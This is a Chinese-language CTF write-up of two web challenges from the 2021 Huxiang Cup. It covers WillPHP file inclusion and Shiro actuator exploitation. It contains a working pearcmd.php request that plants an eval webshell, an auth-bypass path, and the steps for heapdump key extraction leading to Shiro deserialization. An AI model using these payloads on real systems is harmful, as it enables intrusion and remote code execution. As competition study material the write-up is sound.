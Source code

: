 # easywill

打开页面发现是个WillPHP，而且应该就是assign的模板渲染了，而且根据这个东西和tp有点关联，联想到tp的那个assign实现的文件包含。去下载源码跟一下，发现是在这里出现了任意文件包含

```php
	public static function renderTo($viewfile, $vars = []) {
		$m = strtolower(__MODULE__);
		$cfile = 'view-'.$m.'_'.basename($viewfile).'.php';
		if (basename($viewfile) == 'jump.html') {
			$cfile = 'view-jump.html.php';
		}
		$cfile = PATH_VIEWC.'/'.$cfile;
		if (APP_DEBUG || !file_exists($cfile) || filemtime($cfile) < filemtime($viewfile)) {
		    echo "123";
			$strs = self::compile(file_get_contents($viewfile), $vars);
			var_dump($cfile);
			file_put_contents($cfile, $strs);
		}
		extract($vars);
		include $cfile;
```

![image-20211114112618033](2021-湖湘杯-Web.assets/image-20211114112618033.png)

但是找不到flag，发现pearcmd.php包含可以利用，直接打就可以了：

```
GET /?name=cfile&value=/usr/local/lib/php/pearcmd.php&+-c+/tmp/.feng.php+-d+man_dir=<?eval($_POST[0]);?>+-s+ HTTP/1.1
```

就把马写在了`/tmp/.feng.php`，再包含之即可：

![image-20211114112720861](2021-湖湘杯-Web.assets/image-20211114112720861.png)



# Pentest in Autumn

pom.xml里面有个shiro 1.5.0。

打开网站发现没什么东西，扫了一下（bushi）扫到了`actuator`，但是很明显需要shiro得鉴权绕过：

```
/;/actuator/env
```

找到了这篇文章：https://www.cnblogs.com/icez/p/Actuator_heapdump_exploit.html

利用heapdump找到shiro的key来实现反序列化攻击。通过访问`/;/actuator/heapdump`下载下来，然后找key。

但是文章里的那个工具我本地用不了。。。我用了jdk自带的：

```
D:\environment\jdk8u302-b08\bin>jhat.exe C:\Users\15997\Desktop\heapdump
Reading from C:\Users\15997\Desktop\heapdump...
Dump file created Sun Nov 14 14:39:57 CST 2021
Snapshot read, resolving...
Resolving 286122 objects...
Chasing references, expect 57 dots.........................................................
Eliminating duplicate references.........................................................
Snapshot resolved.
Started HTTP server on port 7000
Server is ready.

```

经过一番寻找找到了key：

![image-20211114153327932](2021-湖湘杯-Web.assets/image-20211114153327932.png)

转换一下：

```python
import base64
s= "0xa1, 0x58, 0xba, 0xdd, 0xa3, 0x90, 0xf8, 0x09, 0x2b, 0x92, 0x5e, 0xe4, 0x04, 0x8a, 0x42, 0x34"
print(s.replace(", ","").replace("0x",r"\x"))

ss=b'\xa1\x58\xba\xdd\xa3\x90\xf8\x09\x2b\x92\x5e\xe4\x04\x8a\x42\x34'
print(base64.b64encode(ss))
#b'oVi63aOQ+Akrkl7kBIpCNA=='
```



然后工具直接梭：

![image-20211114153643224](2021-湖湘杯-Web.assets/image-20211114153643224.png)







